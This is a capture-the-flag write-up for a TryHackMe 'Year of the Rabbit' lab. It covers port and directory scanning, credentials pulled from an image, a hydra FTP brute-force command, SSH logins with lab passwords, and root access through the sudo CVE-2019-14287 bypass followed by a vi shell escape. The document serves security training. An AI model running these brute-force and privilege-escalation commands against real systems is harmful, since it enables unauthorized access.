 # [Challenge](https://tryhackme.com/room/yearoftherabbit)

- # ENUM
	- ### nmap (`nmap -A -p- -T4 --min-rate=5000 rabbitYear `)
		- 21 -> ftp
		- 22 -> ssh
		- 80 -> http
	- ### gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u rabbitYear -x .html,.txt,.php,.js`)
		- #### DIRECTORIES
			- `/assets`

- # EXPLOITATION
	- In `rabbityear/assets/style.css` there's an hidden file: `/sup3r_s3cr3t_fl4g.php` (and a rickroll)
		- It tells us to disable JS... let's do it
			- Nothing, just a rickroll...
		- Let's try using BurpSuite
		- Hidden directory found: `/WExYY2Cv-qU`"!
			- Let's analyze `Hot_Babe.png` with `strings`
				- We have the username and the passwords! Let's bruteforce with `hydra` (`hydra -l ftpuser -P pass.txt ftp://rabbitYear -t 64 -V -I`)
					- username: `ftpuser`
					- password: `5iez1wGXKfPKQ`
	- Let's connect into the FTP server and get `Eli's_Creds.txt`:
		- That's brainfuck language!
			- username: `eli`
			- password: `DSpDiM1wAEwid`
				- Let's log into SSH!
	- `"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"`
		- `find / -name s3cr3t 2>/dev/null` -> `/usr/games/s3cr3t`
			- We got Gwendoline's password!
				- pass: `MniVCQVhQHUNI`

- # PRIVILEGE ESCALATION
	- `sudo -l` -> `(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt`
		- We can't sudo as root :/
	- `CVE-2019-14287`: `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`
		- We can run `vi` as root thanks to this CVE (`-1 → UINT_MAX → error → fallback to root (UID 0)`)
			- In vim: `:!/bin/bash`
				- We're ROOT!

